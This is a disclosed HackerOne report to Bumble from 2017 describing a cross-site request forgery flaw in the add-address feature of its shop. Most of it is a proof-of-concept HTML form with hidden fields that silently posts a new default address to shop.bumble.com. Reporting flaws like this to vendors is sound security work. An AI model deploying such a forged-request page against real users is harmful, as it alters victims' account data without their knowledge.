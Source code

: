 # CSRF bug 

## Report Details
- **Report ID**: 239170
- **URL**: https://hackerone.com/reports/239170
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-12T08:35:29.389Z
- **Disclosed**: 2017-06-12T09:32:02.786Z

## Reporter
- **Username**: dark_heaven
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: bumble

## Vulnerability Information
Sir Recently I found a bug on add address. Check my exploit. It address can be default. I hope you will fix this as soon as possible 
<html>
  <body>
    <form action="https://shop.bumble.com/account/addresses" method="POST">
      <input type="hidden" name="form&#95;type" value="customer&#95;address" />
      <input type="hidden" name="utf8" value="â&#156;&#147;" />
      <input type="hidden" name="address&#91;first&#95;name&#93;" value="Rahamat" />
      <input type="hidden" name="address&#91;last&#95;name&#93;" value="Shah" />
      <input type="hidden" name="address&#91;company&#93;" value="dark" />
      <input type="hidden" name="address&#91;address1&#93;" value="12&#47;45" />
      <input type="hidden" name="address&#91;address2&#93;" value="" />
      <input type="hidden" name="address&#91;city&#93;" value="newyor" />
      <input type="hidden" name="address&#91;country&#93;" value="United&#32;States" />
      <input type="hidden" name="address&#91;province&#93;" value="Alabama" />
      <input type="hidden" name="address&#91;zip&#93;" value="" />
      <input type="hidden" name="address&#91;phone&#93;" value="" />
      <input type="hidden" name="address&#91;default&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


## Attachments
No attachments
